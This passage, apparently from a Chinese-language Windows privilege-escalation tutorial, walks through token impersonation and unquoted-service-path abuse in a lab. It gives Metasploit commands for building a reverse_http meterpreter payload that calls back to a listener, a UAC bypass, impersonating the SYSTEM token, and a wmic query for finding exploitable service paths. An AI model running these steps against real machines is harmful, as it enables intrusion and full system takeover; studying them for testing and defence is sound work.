3、使用 OpenProcess 函数获取具有 SYSTEM 权限的进程句柄。

4、使用 OpenProcessToken 函数获取该进程的令牌句柄。

5、使用 DuplicateTokenEx 函数对令牌进程复制。

6、通过 CreateProcessWithToken 函数用复制的令牌创建新的进程，该进程成为拥有 SYSTEM 权限的进程。

下面具体操作：

```
msfvenom -p windows/meterpreter/reverse_http lhost=192.168.202.131 lport=22222-f exe -o h4.exe  //生成exe
use exploit/multi/handler  //建立监听
set payload windows/meterpreter/reverse_http
set lport 22222
set lhost 192.168.202.131
```

useincognito

list_tokens-u   获取用户 Token

上面为交互登录 Token，可见没有 bypassuac 的情况下是没有 system 的，下面为非交互登录会话 Token

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib3zDrQKRMZ45qDI2syU7TRYemsXx3WwcpLZYe1RkxZ1vzHibzcrP3wgQ/640?wx_fmt=png)

use exploit/windows/local/bypassuac

set session 5

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib3iaOElqAoja0e9e9JKib8KvbbySf44moLCQe3QaLAGDQeaUbMNPjhqXA/640?wx_fmt=png)

impersonate_token“NT AUTHORITY\SYSTEM” 进行令牌假冒

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibO5th87lrLgibNQxCGesr0A6ePWOUtDN0YfKrI8eIMlFjA1iaiaIO5jmgA/640?wx_fmt=png)

### **4.6 不带引号的服务路径**

当 windows 服务中的路径没有被引号包含，则操作系统会执行空格分割后服务路径的前一部分。所以我们可以构造并上传路径名称的文件，然后重启服务，达到提权母的。

先输入命令检测不带引号的服务路径：

```
wmicservice get name,displayname,pathname,startmode |findstr /i "Auto"|findstr /i /v "C:\Windows\\" |findstr /i /v """
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibSOEEtIqLJbO9YHmdxpP3rAC5cRdoD3DFDvNtU7bvyCrneHeOuo71sg/640?wx_fmt=png)

可见第一个是没有空格，没有问题，mytest3 则有问题。

我们在 c 盘下，新建文件，并新建 cmd 窗口执行 C:\ProgramFiles\cmd.exe，则执行到 Program.exe 文件

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibzvxG2lTsYibew1LJkfz59zmtuqmiblsSxb445Eypzd87ZzmqI28MGia7g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Libjy4dhPbl9HPDcQjCUVxR7zjMEC8RjiaNia5yYFF0BicPiclwTTbdMTVvow/640?wx_fmt=png)
